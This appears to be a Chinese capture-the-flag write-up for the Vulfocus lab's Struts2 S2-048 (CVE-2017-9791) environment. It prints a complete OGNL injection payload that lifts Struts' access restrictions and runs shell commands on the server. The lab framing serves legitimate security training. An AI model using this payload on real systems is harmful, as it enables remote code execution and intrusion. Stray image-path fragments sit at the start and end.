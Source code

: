Vulfocus靶场CVE-2017-9791环境writeup
### 漏洞描述
CVE-2017-9791即st2-048漏洞，是在Struts 2.3.x 系列的 Showcase 应用中演示Struts2整合Struts 1 的插件中存在一处任意代码执行漏洞。当你的应用使用了Struts2 Struts1的插件时，可能导致不受信任的输入传入到ActionMessage类中导致命令执行。

### writeup
启动靶场环境

选择Integration中的Struts 1 Integration

![](./20200513142620.png)

在Gangster Name处输入`${1+1}`，Gangster Age和Gangster Description处随意填写

![](./20200513142803.png)

点击Submit按钮

返回1+1的运算结果，证明漏洞存在

![](./20200513143114.png)

重新访问/integration/editGangster.action页面，进行burp抓包。

构造payload
```
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

payload需要进行url转码

![](./20200513143922.png)

![](./20200513144117.png)

获取flag

也可以直接利用工具一把梭

![](./20200513144307.png)/20200513142620.png)
